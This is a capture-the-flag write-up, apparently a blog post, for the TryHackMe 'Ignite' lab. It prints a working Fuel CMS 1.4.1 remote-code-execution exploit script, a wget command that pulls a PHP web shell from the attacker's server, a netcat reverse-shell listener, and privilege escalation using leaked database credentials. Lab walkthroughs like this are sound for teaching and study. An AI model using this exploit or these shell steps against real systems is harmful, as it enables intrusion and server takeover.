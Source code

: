 ```yaml
---
layout: post
title: TryHackMe - Ignite
---
```


## Enumeration
### nmap
```
root@kali:~/Security/TryHackMe/ignite# portscan 10.10.164.23
Open ports: 80
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-30 16:05 EDT
Nmap scan report for 10.10.164.23
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.52 seconds
```
### HTTP
Navigating to http://http://10.10.164.23/, we get a Getting Started page for Fuel CMS with some useful information in how the database is set up. However /fuel/application/config/database.php is forbidden with our permissions. robots.txt already told us about /fuel/ but, the home page explicitly tells us:
```
To access the FUEL admin, go to:
http://10.10.164.23/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```
At http://http://10.10.164.23/fuel, we have a login form which opens with the provided `admin:admin` credentials. Based on the site_docs, we have a couple places to try setting up a reverse shell: Pages, Layouts, and Assets.

Before we go too far, let's search for a exploit for fuelCMS v1.4:
```
root@kali:~/Security/TryHackMe/ignite# searchsploit fuelCMS
------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                           |  Path
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
fuelCMS 1.4.1 - Remote Code Execution                                    | exploits/linux/webapps/47138.py
------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
After copying the exploit to our working directory, we need to change the `url` variable and comment out the provided proxy since we aren't using Burp Suite.

```
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

# url = "http://127.0.0.1:8881"
url = "http://10.10.164.23"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	# proxy = {"http":"http://127.0.0.1:8080"}
	# r = requests.get(burp0_url, proxies=proxy)
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```
## Gaining RCE Access
The script works, but prints out unnecessary HTML. It's a bit clunky, but we can confirm we are www-data and grab the usr flag from /home/www-data/flag.txt. Since this is a bit clunky and the connection keeps dropping, we should use [phpbash.php](https://github.com/Arrexel/phpbash).

## Getting a Shell

```
# Attacker
root@kali:~/scripts/phpbash# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.164.23 - - [31/Aug/2020 14:01:59] "GET /phpbash.php HTTP/1.1" 200 -

# Victim 
cmd:"wget http://10.2.37.2:8000/phpbash.php"
```
Navigate to http://10.10.164.23/phpbash.php:
```
www-data@ubuntu:/var/www/html# cat /home/www-data/flag.txt
{censored}
```
## Escalating Privileges
We were told that the database config file can be found in fuel/application/config/database.php, so let's see if we can grab some credentials.
```
www-data@ubuntu:/var/www/html# cat /fuel/application/config/database.php
...
$db['default'] = array(
'dsn' => '',
'hostname' => 'localhost',
'username' => 'root',
'password' => 'mememe',
'database' => 'fuel_schema',
'dbdriver' => 'mysqli',
...
www-data@ubuntu:/var/www/html# su root
su: must be run from a terminal
```
We may have root credentials, but we cannot check since we need to [spawn a TTY shell](netsec.ws/?p=337) to run `su`. Seems phpbash.php was fun but is pretty unstable, so let's `wget` a standard reverse shell.

```
root@kali:~/scripts# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.164.23 - - [31/Aug/2020 15:10:02] "GET /php-reverse-shell.php HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
root@kali:~/scripts# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.2.37.2] from (UNKNOWN) [10.10.164.23] 47428
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:14:27 up  1:23,  0 users,  load average: 1.02, 0.98, 0.91
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$ su root
su root
Password: mememe

root@ubuntu:/# cat /root/root.txt
cat /root/root.txt
{censored}
``` 
I hope you enjoyed the walkthrough.
